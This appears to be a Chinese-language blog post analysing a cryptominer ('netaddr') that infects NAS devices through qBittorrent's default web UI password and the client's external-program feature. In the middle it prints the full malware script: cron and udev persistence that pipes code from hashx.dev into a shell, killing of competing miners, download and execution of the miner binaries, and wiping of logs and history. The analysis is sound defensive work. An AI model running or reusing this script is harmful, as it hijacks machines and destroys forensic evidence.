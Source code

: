 # 用qB默认密码，让nas变成矿场

# 开场白
nas风扇为何深夜发出异响？  
进程管理中的`netaddr`是为何物？  
CPU为何常年高温？  
这一切的背后是良心的泯灭，还是道德的沦丧，还是人性的扭曲？

# 望
最近经常看见有群友反馈，说是一个叫`netaddr`的进程占用极高  
甚至让CPU温度长期保持在95度以上

出于好奇我寻访到了当地的群友，开启了本次的探索之旅  

> 群友A：  
> 最近我的nas深夜经常发出奇怪的声音
 
> 群友B:  
> 最近我的nas里经常有一个叫`netaddr`的进程莫名其妙出现了

当地群友传言，这肯定是nas系统在挖矿，果然免费的就是最贵的

# 闻
于是出于好奇，我进入了群友的nas，打开了资源监控  
![20241017151218.png](img/20241017151218.png)

映入眼帘的就是那群友说的，`netaddr`占用了大量的CPU  
就如同跗骨之蛆一般，即便是重启，过一阵子也会重新出现    

进入ssh查看了一下终端  
![20241017153340.jpg](img/20241017153340.jpg)  
这个进程，似乎是使用qBittorrent用户运行的  

问了一下群友，群友一致表示，确实是有安装这个叫qBittorrent的应用  
![20241017153517.png](img/20241017153517.png)  
点开应用一看，应用介绍的首句赫然写着：  
> 默认用户名：admin，默认密码：adminadmin  

![20241017153545.png](img/20241017153545.png)
# 问
这个普遍的问题，在互联网上应该有其他人也发觉了吧？  
但当我问谷歌，只有一位博主有提及到  
![20241017153911.png](img/20241017153911.png)  

但是他也没有发现具体原因是什么  
![20241017154126.png](img/20241017154126.png)   
只是发现，关闭QB容器后，就能解决这个问题  
一切的矛头都指向了qBittorrent

# 切
在qBittorrent的开源代码仓库中，找到了原因  
https://github.com/qbittorrent/qBittorrent/issues/18731  
https://github.com/advisories/GHSA-vchq-5hmx-6hmp  
> All versions of the qBittorrent client through 4.5.5 use default credentials when the web user interface is enabled. 
> 
> The administrator is not forced to change the default credentials. 
> 
> As of 4.5.5, this issue has not been fixed. 
> 
> A remote attacker can use the default credentials to authenticate and execute arbitrary operating system commands using the "external program" feature in the web user interface. 
> 
> This was reportedly exploited in the wild in March 2023.

大意就是，远程攻击者可以使用默认用户名密码，通过修改"运行外部程序"运行恶意程序  
![20241017154944.png](img/20241017154944.png)

# 关于netaddr
这个脚本通过移除定时任务、删除文件、移除容器、停止系统服务等行为，将同类的竞争对手赶尽杀绝  
再通过定时任务等方式，将该恶意脚本持久化  
一个显著的特征就是，挖矿程序以`netaddr`这个名称鱼目混珠，这也是近期频现神秘的`netaddr`占用大量资源的根本原因  
```shell
#!/bin/sh
crontab -r >/dev/null 2>&1
(if sudo -n true; then for crons in $(sudo find /etc/cron* -type f); do sudo rm $crons; done; elif [ "$(id -u)" -eq 0 ]; then for crons in $(find /etc/cron* -type f); do rm $crons; done; fi) >/dev/null 2>&1
(if sudo -n true; then echo 0 \* \* \* \* root sh -c "\"(curl -skL https://hashx.dev || wget --no-check-certificate -qO - https://hashx.dev || lwp-request https://hashx.dev) | sh"\" | sudo tee /etc/cron.d/mdadm; elif [ "$(id -u)" -eq 0 ]; then echo 0 \* \* \* \* root sh -c "\"(curl -skL https://hashx.dev || wget --no-check-certificate -qO - https://hashx.dev || lwp-request https://hashx.dev) | sh"\" | tee /etc/cron.d/mdadm; fi) >/dev/null 2>&1
UDEV='SUBSYSTEM=="net", KERNEL!="lo", RUN+="echo 0 \* \* \* \* root sh -c "\"(curl -skL https://hashx.dev || wget --no-check-certificate -qO - https://hashx.dev || lwp-request https://hashx.dev) | sh"\" | (sudo tee /etc/cron.d/mdadm || tee /etc/cron.d/mdadm)"'
(if sudo -n true; then echo $UDEV | sudo tee /etc/udev/rules.d/mdadm; elif [ "$(id -u)" -eq 0 ]; then echo $UDEV | tee /etc/udev/rules.d/mdadm; fi) >/dev/null 2>&1
(ps aux | grep -v grep | grep -aE '[.][s][h]' | awk ' {print $2}' | xargs -I % kill -9 %) >/dev/null 2>&1
(if sudo -n true; then sudo chattr -i /usr/bin/hostctld; fi) >/dev/null 2>&1
(find /dev/shm -type f -exec rm -rf {} \;) >/dev/null 2>&1
(find /tmp -type f -exec rm -rf {} \;) >/dev/null 2>&1
(rm -rf ${HOME}/.local/.c) >/dev/null 2>&1
(rm -rf /dev/shm/.net-io/ /opt/.net/ ~/.config/cron” and ~/.local/bin || sudo rm -rf /dev/shm/.net-io/ /opt/.net/ ~/.config/cron” and ~/.local/bin) >/dev/null 2>&1
(docker stop watchtower tm ; docker rm watchtower tm ; docker stop traffmonetizer) >/dev/null 2>&1
(if sudo -n true && command -v systemctl; then sudo systemctl stop sshb; sudo systemctl disable sshb; sudo systemctl stop log_rotate.service; sudo systemctl disable log_rotate.service; sudo systemctl stop c3pool_miner; sudo systemctl disable c3pool_miner; sudo systemctl stop journalctld; sudo systemctl disable journalctld; sudo systemctl stop hostctld; sudo systemctl disable hostctld; elif [ "$(id -u)" -eq 0 ]; then systemctl stop sshb; systemctl disable sshb; systemctl stop log_rotate.service; systemctl disable log_rotate.service; systemctl stop c3pool_miner; systemctl disable c3pool_miner; systemctl stop journalctld; systemctl disable journalctld; systemctl stop hostctld; systemctl disable hostctld; fi) >/dev/null 2>&1
(pkill -f /bin/xm; rm -rf /bin/xm; pkill -f /bin/wxm; rm -rf /bin/wxm; pkill -f /tmp/.x111/x; rm -rf /tmp/.x111/x) >/dev/null 2>&1
(for badboy in net-io top perfcc pwnkit net_ioaarch64 efm linuxsys miner gitlabw xmp juiceSSH khnug Linux2 kthreaddi kkssl cnrig stratum vscode runsv puma xmrig c3pool kthreaddk supportxmr xmr kthreaddw klibsystem4 kworkerr ipv6_addrconfd ksoftriqd logrotate log_rotate doai_eater SyGIcPtf netsys logsysd logsd auditd journalctld journald xmw xm lg-musl-x86 systemd-net Y3Eh agent_linux hostctld lr_bionic lr_focal lr_linux processlib2.so processlib.so rbmx rfmx rotate rotate_cn_rt rotate_low xmrig_arm64 xmrig_freebsd; do ps aux | grep -v grep | grep $badboy | awk ' {print $2}' | xargs -I % kill -9 %; done)  >/dev/null 2>&1
(for port in 3333 4444 5555 7777 14444 5790 45700 2222 9999 20580 13531 9021 9022 4447 9000 13131 13337 13338 13339 19951 44521 10900 63256 11288 7331; do ss -tpn "dst :$port" | grep -Po 'pid=\K\d+' | xargs -r kill; done)  >/dev/null 2>&1
(for thug in 95.216.88.55 146.70.120.58 50.7.74.173 129.13.131.140 199.58.81.140 212.47.244.38 54.187.140.5 173.212.220.247 193.168.143.199 198.211.126.180 154.213.187.153 173.212.220.247 82.153.138.25 157.245.193.241 45.61.143.47 165.22.195.35 165.227.63.241 164.90.149.104 164.90.149.104 192.241.144.69 141.95.72.60 141.95.72.61 141.95.72.59 104.243.43.115 104.243.33.118 139.99.123.196 139.99.124.170 139.99.125.38 141.94.96.144 141.94.96.71 141.94.96.195; do for pid in $(ss -tnp | grep "$thug" | awk '{print $6}' | cut -d',' -f2 | cut -d'=' -f2 | sort -u); do kill -9 $pid; done; done) >/dev/null 2>&1
(ps -eo pid,cmd | grep '/bin/bash -i >/dev/tcp' | awk '{print $1}' | xargs -I % kill -9 %) >/dev/null 2>&1
(ps -eo pid,cmd | grep 'import pty;pty.spawn' | awk '{print $1}' | xargs -I % kill -9 %) >/dev/null 2>&1
((curl -skL https://hashx.dev/fun || wget --no-check-certificate -qO - https://hashx.dev/fun || lwp-request https://hashx.dev/fun) | bash) >/dev/null 2>&1
RUN=$(ps -ef | grep 'netaddr' | grep -v 'defunct' | grep -v 'grep' | wc -l)
if [ $RUN -gt 0 ]; then
    exit 1
fi
(ps -eo pid,%cpu --sort=-%cpu | awk '$2 > 80 {print $1}' | xargs -I % kill -9 %) >/dev/null 2>&1
(curl -ksL https://hashx.dev/netaddr -o /tmp/netaddr || wget --no-check-certificate -qO /tmp/netaddr https://hashx.dev/netaddr || lwp-download https://hashx.dev/netaddr /tmp/netaddr)
(curl -ksL https://hashx.dev/netaddra -o /tmp/netaddra || wget --no-check-certificate -qO /tmp/netaddra https://hashx.dev/netaddra || lwp-download https://hashx.dev/netaddra /tmp/netaddra)
(curl -ksL https://hashx.dev/netaddrf -o /tmp/netaddrf || wget --no-check-certificate -qO /tmp/netaddrf https://hashx.dev/netaddrf || lwp-download https://hashx.dev/netaddrf /tmp/netaddrf)
cd /tmp;chmod +x netaddr*;./netaddr || ./netaddra || ./netaddrf;rm -rf netaddr*
(if sudo -n true; then for logs in $(sudo find /var/log -type f); do sudo rm $logs; done; elif [ "$(id -u)" -eq 0 ]; then for logs in $(find /var/log -type f); do rm $logs; done; fi) >/dev/null 2>&1
(rm $HOME/.bash_history) >/dev/null 2>&1
(history -c) >/dev/null 2>&1
```
得益于Linux优秀的权限控制，在未取得root权限时，持久化等操作均不能生效    
索幸本次观察到的`netaddr`都是使用qBittorrent用户运行的  

# 结束语
QB有风险，使用需谨慎  
要想用的欢，就把密码换

至于群友们后来怎么样了  
重装QB应用套件修改默认密码后再也没被`netaddr`缠上

所以fnOS官方什么时候给“资源监控-进程”那边加一列"用户名称"？